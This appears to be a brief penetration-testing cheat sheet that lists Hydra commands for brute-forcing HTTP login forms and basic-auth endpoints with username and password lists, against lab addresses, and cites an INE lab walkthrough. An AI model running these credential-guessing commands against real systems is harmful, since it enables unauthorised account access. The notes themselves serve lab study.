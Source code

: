 # HTTP Login

## Hydra

- `hydra -L <userlist> -P <passlist> <target> http-post-form "/login.php:login=^USER^&password=^PASS^&security_level=0&form=submit:Invalid credentials"`
- `hydra -L usernames -P passwords 192.208.137.3 http-post-form "/login.php:login=^USER^&password=^PASS^&security_level=0&form=submit:Invalid credentials or user not activated!"`
  ![http-form](./images/http-login-01.png)
- `hydra -U http-post-form` : for man help
  ![http-form](./images/http-login-02.png)

## Basic auth bypass

- `hydra -L usernames -P password_file.txt -s port -f ip_address request_method /path`
- `hydra -L usernames -P passwords -f 192.168.1.4 http-get /webdav`

## References

- https://assets.ine.com/labs/ad-manuals/walkthrough-1896.pdf : basic-auth burpsuite
